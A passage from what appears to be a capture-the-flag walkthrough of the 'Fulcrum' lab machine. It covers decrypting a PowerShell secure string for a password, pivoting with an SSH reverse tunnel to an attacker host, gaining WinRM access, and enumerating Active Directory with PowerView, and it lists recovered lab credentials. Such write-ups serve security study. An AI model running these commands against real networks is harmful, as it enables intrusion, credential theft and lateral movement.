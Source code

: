 
### 7. Decrypting PowerShell Secure String
- **Technique**: PowerShell secure string decryption
- **Details**:
  - Decrypted the secure string in `fulcrum_upload_core.ps1` using PowerShell on the attacker's Kali box:
    ```powershell
    $secureString = ConvertTo-SecureString "encrypted_password" -Key (key_from_script)
    $credential = New-Object System.Management.Automation.PSCredential("web_user", $secureString)
    $password = $credential.GetNetworkCredential().Password
    ```
  - Obtained the password `management_pass` for the `web_user` account.
  - Noted PowerShell crashes due to telemetry issues, mitigated by setting `$env:POWERSHELL_TELEMETRY_OPTOUT=1`.

---

### 8. Pivoting to Windows Machine (Web Server)
- **Technique**: Windows Remote Management (WinRM) via Ruby script
- **Details**:
  - Identified WinRM service on `192.168.122.28:5986` (encrypted) using a static Nmap binary uploaded to the Fulcrum server.
  - Set up an SSH reverse tunnel to access the internal network:
    ```bash
    ssh -R 5986:192.168.122.28:5986 ifsec@[ATTACKER-IP] -N
    ```
  - Used a Ruby WinRM script (`winrm_shell.rb`) from a GitHub repository to connect to the web server:
    ```ruby
    require 'winrm'
    conn = WinRM::Connection.new(
      endpoint: 'http://127.0.0.1:5986/wsman',
      user: 'web_user',
      password: 'management_pass'
    )
    conn.shell(:powershell) do |shell|
      output = shell.run('whoami') { |stdout, stderr| puts stdout }
    end
    ```
  - Gained access to the Windows web server as `web_user`.

---

### 9. Active Directory Enumeration
- **Technique**: LDAP enumeration with PowerView
- **Details**:
  - Found credentials in `web.config` (`c:\inetpub\wwwroot\web.config`): `ldap` user with password `password_for_searching` for `fulcrum.local` domain.
  - Uploaded PowerView (`PowerView.ps1`) to the web server via WinRM file upload.
  - Created credentials for LDAP queries:
    ```powershell
    $secPass = ConvertTo-SecureString "password_for_searching" -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential("fulcrum\ldap", $secPass)
    ```
  - Ran PowerView to enumerate domain users:
    ```powershell
    Import-Module .\PowerView.ps1
    Get-DomainUser -Credential $cred -DomainController dc.fulcrum.local | Select samaccountname, logoncount, lastlogon
    ```
  - Identified active accounts, including `btables` (logon count 29, password `fileserverlogin12345`) and `923a`.

---